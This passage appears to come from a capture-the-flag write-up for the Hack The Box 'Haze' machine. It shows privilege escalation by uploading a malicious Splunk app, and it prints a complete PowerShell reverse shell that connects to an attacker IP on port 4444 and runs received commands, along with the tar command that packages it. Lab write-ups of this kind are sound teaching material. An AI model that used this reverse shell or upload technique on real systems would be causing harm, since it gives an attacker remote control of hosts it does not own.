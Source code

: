 ![](images/2025-03-30_09-42_8000_splunk_enterprise_dashboard.png)

## Privilege Escalation to Alexander.Green

Intentionally we moved to the `Apps` section and noticed that we could `upload` our own `app`. After a first own `PoC` we found an `repository` on `GitHub` to achieve exactly the same what we planned to do.

- [https://github.com/0xjpuff/reverse_shell_splunk](https://github.com/0xjpuff/reverse_shell_splunk)

After we `cloned` the `repository` we modified the `run.ps1` to our needs and created the necessary `tarball` in order to `upload` it on the `dashboard`.

```shell
┌──(kali㉿kali)-[/media/…/files/reverse_shell_splunk/reverse_shell_splunk/bin]
└─$ cat run.ps1 
#A simple and small reverse shell. Options and help removed to save space. 
#Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.85',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```shell
┌──(kali㉿kali)-[/media/…/Machines/Haze/files/reverse_shell_splunk]
└─$ tar -czf revshell.tgz reverse_shell_splunk
```

